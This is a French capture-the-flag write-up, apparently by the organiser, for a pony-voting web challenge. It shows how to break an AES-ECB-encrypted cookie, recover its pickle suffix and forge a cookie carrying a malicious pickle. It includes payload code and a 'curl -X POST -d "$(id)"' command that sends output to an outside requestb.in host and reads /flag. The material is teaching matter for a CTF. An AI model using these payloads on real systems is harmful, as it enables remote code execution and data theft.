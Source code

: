 # Writeup

## Première étape : AES ECB

On nous présente un site web, avec un système d'utilisateur permettant de voter
pour son poney favoris.

Il faut d'abord remarquer que lorsque l'on se connecte, on obtient un cookie en
hexadécimal. Ce cookie contient surement des informations relatives au compte. On
peut se douter qu'il contient l'id de l'utilisateur, au moins.

Il faut penser à créer plusieurs comptes avec des noms d'utilisateurs très
long pour voir que la taille de ce cookie augmente.

En se créant un compte avec l'username XXXXXXXXXXXXXXXXXXXX, on obtient le cookie:
146c0c4e3d2cf71e9adb8b49ade50078775d45d3555a4e2d881de94c90f0609528b57db930b567fc2ed798d26fbb2b42

Avec l'username XXXXXXXXXXXXXXXXXXXY (dernier caractère différent), on obtient:
0fe35a7a39913b66ab3bf3f7116d781a775d45d3555a4e2d881de94c90f06095ce5bc5e4c345a909c627c3f7ffbcbe30

On peut remarquer la répétition de 775d45d3555a4e2d881de94c90f06095, qui fait
exactement 16 octets. On se doute donc que le cookie est chiffré avec un mode
opératoire ECB: https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#Electronic_Codebook_.28ECB.29

Chaque bloc est chiffré indépendemment des autres, ce qui rend le chiffrement
très vulnérable. On se doute donc que 'X' * 16 est chiffré en
775d45d3555a4e2d881de94c90f06095.

Au final, on peut se douter que le chiffrement est de l'AES, mais on n'a pas
besoin de cette information pour résoudre le challenge. Il faut uniquement
remarquer que c'est de l'ECB.

## Seconde étape : récupérer le suffixe

On se doute donc que notre cookie est chiffré et contient notre username. Une
attaque courante de l'ECB permet de récupérer tout ce qui est chiffré après
notre username dans le cookie (le suffixe).

cookie = AES-ECB(préfixe + username + suffixe)

La technique est simple: on va d'abord faire en sorte que notre username termine
un bloc. Pour ça, on va chiffrer 'A' * i, avec i de 1 jusqu'à l'infini, jusqu'à
obtenir 2 fois le même bloc.

ATTENTION: Comme on doit toujours avoir un username unique, dans mon script,
je préfixe toujours mon username avec 4 caractères aléatoires.
ATTENTION: Si un challenger est bloqué, il faut lui conseiller cette technique.
S'il ajoute seulement 1 ou 2 caractères aléatoires, il va tomber sur des
usernames déjà pris par d'autres équipes (d'après mes tests) et perdre du temps
sans comprendre le problème.

Dans notre cas, on remarque qu'avec un username de longueur 50, on trouve 2
fois le même bloc:

12abb65223b044a069083688f1a5c380b989aa08f3e62b0cae9bc45cf89f54c05e98d92e0ac1e56557d63a3ef02cb7a65e98d92e0ac1e56557d63a3ef02cb7a6c3b30495a05eaf17b2ae129b6c002d95

Si on découpe en bloc de 16 octets (donc 32 caractères hexa):

'12abb65223b044a069083688f1a5c380', 'b989aa08f3e62b0cae9bc45cf89f54c0', '5e98d92e0ac1e56557d63a3ef02cb7a6', '5e98d92e0ac1e56557d63a3ef02cb7a6', 'c3b30495a05eaf17b2ae129b6c002d95'
                                                                         username[18:34],                    username[34:50]

Les blocs 3 et 4 sont identiques. On en déduit donc qu'avec un username de
longueur 50 - 2 * 16 = 18, on tombe à la fin d'un bloc.

On va donc s'enregistrer avec comme username = 'X' * 18 + 'X' * 15, de cette
façon on sait que le 3ième bloc correspondra à AES-ECB('X' * 15 + suffixe[0]).

On va tester tous les caractères possibles c, on s'enregistre avec
'X' * 18 + ('X' * 15 + c), et on s'arrête quand on retrouve le même bloc que
précédemment:

AES-ECB('X' * 15 + suffixe[0]) = AES-ECB('X' * 15 + c)

Il faut bien tenter avec toutes les valeurs de c entre 0 et 255.

On peut continuer avec la même technique pour obtenir tout le suffixe.

On obtient: suffixe = 'q\x01Ne.\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'

Utiliser ./solving_script.py --full pour trouver le même résultat

## Troisième étape: pickle

On se rend compte qu'il s'agit du format pickle: https://docs.python.org/2/library/pickle.html

Ce n'est pas forcément simple à voir, mais le titre du challenge est un indice.

Maintenant, on doit se douter que cookie = AES-ECB(PICKLE([user_id, username, None]))
En fait, le None correspond au vote, mais on s'en fiche.

On sait que pickle n'est pas safe et permet d'exécuter du code arbitraire:
https://blog.nelhage.com/2011/03/exploiting-pickle/

Ici, on va utiliser le mode ECB pour forger son propre cookie.

Il suffit de s'enregistrer avec username = 'X' * 18 + pickle(16 octets) et de
récupérer le 3-ième bloc.

On va essayer d'exécuter os.system('curl -X POST -d "$(id)" http://requestb.in/xxxx'):

```
class A:
    def __reduce__(self):
        return (os.system, (('curl -X POST -d "$(id)" http://requestb.in/xxxx',),))

print(pickle.dumps(A()))
```

### Python 3

En python 3, on obtient:

b'\x80\x03cposix\nsystem\nq\x00X\x1c\x00\x00\x00curl -X POST -d "$(id)" http://requestb.in/xxxxq\x01\x85q\x02\x85q\x03Rq\x04.'

Le problème, c'est que ce payload contient des octets > 128.
Le champ username attend de l'UTF-8, comme on peut se douter. Si l'on injecte
'\x85' par exemple, il va être encodé avec 2 octets en UTF8: '\xc2\x85', ce qui
casse notre pickle.

ATTENTION: Si un challenger est bloqué, il faut peut-être lui parler de ce soucis.

Le challenge est donc de construire un pickle ne contenant que des octets < 128.
Pour ça, il faut se renseigner sur le format de pickle:
https://github.com/p4-team/ctf/tree/master/2015-12-27-32c3/gurke_misc_300#eng-version

Personnellement, j'ai regardé directement le code python: /usr/lib/python3.5/pickle.py

Au final, voici mon payload:

```
>>> inject = b'cposix\nsystem\n' # push os.system (load_global)
>>> inject += b'(' # push mark (load_mark)
>>> inject += b'X' + struct.pack('<I', len(cmd)) + cmd # push cmd (load_binunicode)
>>> inject += b't' # stack[k:] = [tuple(stack[k+1:])] (load_tuple)
>>> inject += b'R' # stack[-2](stack[-1]) (load_reduce)
```

On push os.system, puis un marker, puis notre commande, puis on utilise t pour
pop tout jusqu'au marker et construire un tuple, puis on appel reduce.

### Python 2

En python 2, on obtient:

'cposix\nsystem\np0\n((S\'curl -X POST -d "$(id)" http://requestb.in/xxxx\'\np1\ntp2\ntp3\nRp4\n.'

Ce qui ne pose aucun soucis comparé à python 3.

### Injection du payload

NOTE: Au final, l'utilisateur peut crafter son payload avec python 2 ou
python 3, ça devrait marcher (modulo l'UTF-8, voir plus haut).

Ensuite, il suffit de jouer avec les blocs pour former le cookie souhaité. On
veut obtenir: AES(PICKLE([user_id, 'X' * 18, pickle, ...]))

On s'enregistre donc avec 'X' * 18 et on récupère les 2 premiers blocs.
Ensuite, on s'enregistre avec 'X' * 18 + pickle + padding et on récupère les
blocs qui correspondent à notre pickle (donc à partir du 3ième bloc).
On concatène tout ça, et on fait une requête HTTP avec ce cookie, et bim, le
serveur exécute notre commande.

Ensuite, on a un shell. Il suffit de remplacer id par la commande voulue.
Pour terminer, on cat /flag, et le résultat doit apparaitre dans le requestb.in
